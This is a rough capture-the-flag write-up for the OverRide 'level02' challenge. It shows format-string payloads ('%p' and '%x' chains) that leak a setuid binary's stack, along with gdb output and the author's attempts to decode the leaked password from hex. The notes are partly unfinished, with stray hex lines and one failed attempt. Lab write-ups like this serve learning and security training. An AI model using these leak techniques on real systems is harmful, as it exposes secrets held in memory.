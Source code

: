 ### step 1: Decompile with Ghidra

C code is available in the `source` file  

/!\ File in 64 bits  
```
level02@OverRide:~$ file level02 
level02: setuid setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 26.24, BuildID[sha1]=0xf639d5c443e6ff1c50a0f8393461c0befc329e71, not stripped
```

### step 2: Code analysis

- Two buffers are filled with `stdin`
  - `buffer1[12]`
  - `buffer2[14]`

- A Username is asked a fill `buffer1`
- If we try to overflow `buffer1` with more than 12 chars, `buffer2` gets filled. Here is an example with only one long input :  

```
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
--[ Password: *****************************************
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA does not have access!
```

**But we don't get a segfault this way**  

```
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAA%8lx.%8x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
--[ Password: *****************************************
AAAAffffe4f0.00000000.00000025.2a2a2a2a.2a2a2a2a.ffffe6e8.f7ff9a08.78383025.30252e78.2e783830.3830252e.252e7838.78383025.30252e78.2e783830.3830252e.252e7838.78383025.00000000. does not have access!
```
7838302530252e782e7838303830252e252e7838

reversed :
252e78383830252e

0x400d22 = \x22\x0d\x40\x00
f7ff9a08 = \x08\x9a\xff\xf7
ffffe4f0 = \xf0\xe4\xff\xff
0x7fffffffe5d0
printf ("\x22\x0d\x40\x00_%08x.%08x.%08x.%08x.%08x|%s|")


### Finding the adress of `file_content`

(gdb) b *0x0000000000400818
Breakpoint 1 at 0x400818

(gdb) r
Starting program: /home/users/level02/level02 

Breakpoint 1, 0x0000000000400818 in main ()
(gdb) p $rsp
$1 = (void *) 0x7fffffffe5d0

- Stack Pointer Address at the beginning of the main is : `0x7fffffffe5d0`  

- The allocated size of stack variables are 288 bytes (0x120)

- The variable is the second declared in the main so it will be the second to last in the memory, the last being an int of size 4 bytes
=> 

AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx

AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x

```
AAAAffffe4f0.0.2e.2a2a2a2a.2a2a2a2a.ffffe6e8.f7ff9a08.2e78252e.78252e78.252e7825.2e78252e.78252e78.252e7825.2e78252e.78252e78.252e7825.2e78252e.78252e78.252e7825.78252e.0.34376848.61733951.574e6758.6e475873.664b394d.0.41414141.78252e78.252e7825.2e78252e.78252e78 does not have access!
```

We can extract this group of 5 * 8 = 40 bytes  followed by `\0` that could be our flag string in hex

34376848.61733951.574e6758.6e475873.664b394d

`3437684861733951574e67586e475873664b394d`

hex to string : `47hHas9QWNgXnGXsfK9M` => does not work !

reversed : 664b394d6e475873574e67586173395134376848 => `fK9MnGXsWNgXas9Q47hH`


%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p

```
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
--[ Password: *****************************************
0x7fffffffe4f0(nil)0x700x2a2a2a2a2a2a2a2a0x2a2a2a2a2a2a2a2a0x7fffffffe6e80x1f7ff9a080x25702570257025700x70(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)0x100000000(nil)0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d(nil)0x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x29002570250x602010(nil)0x7ffff7a3d7ed(nil)0x7fffffffe6e80x1000000000x400814(nil)0xec9d7c0ee9efabd3 does not have access!
```

We extract `0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d`
